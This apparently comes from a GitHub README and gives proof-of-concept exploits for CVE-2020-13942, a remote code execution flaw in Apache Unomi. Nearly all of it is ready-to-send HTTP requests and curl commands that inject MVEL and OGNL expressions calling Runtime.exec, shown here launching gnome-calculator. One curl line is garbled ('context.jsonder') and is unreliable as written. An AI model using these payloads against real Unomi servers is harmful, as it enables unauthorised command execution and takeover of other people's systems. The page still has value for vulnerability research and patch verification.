


# CVE-2020-13942 Apache Unomi  远程代码执行

影响版本：
- Apache Unomi < 1.5.2

POC1:
```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 486

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "boom"
}
```
```
curl -X POST http://localhost:8181/context.json --header 'Content-type: application/json' --data '{"filters":[{"id":"boom ","filters":[{"condition":{"parameterValues":{"propertyName":"prop","comparisonOperator":"equals","propertyValue":"script::Runtime r=Runtime.getRuntime();r.exec(\"gnome-calculator\");"},"type":"profilePropertyCondition"}}]}],"sessionId":"boom"}'
```
POC2:
```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 1068

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" gnome-calculator\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"boom"
} 
```
```
curl -XPOST http://localhost:8181/context.jsonder 'Content-Type: application/json' --data '{"personalizations":[{"id":"gender-test","strategy":"matching-first","strategyOptions":{"fallback":"var2"},"contents":[{"filters":[{"condition":{"parameterValues":{"propertyName": "(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"gnome-calculator\"))","comparisonOperator":"equals","propertyValue":"male"},"type":"profilePropertyCondition"}}]}]}],"sessionId":"boom"}'
```



[@Eugene Rojavski](https://securityboulevard.com/2020/11/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/#:~:text=Apache%20Unomi%20allowed%20remote%20attackers,privileges%20of%20the%20Unomi%20application)  
[@eugenebmx](https://github.com/eugenebmx/CVE-2020-13942)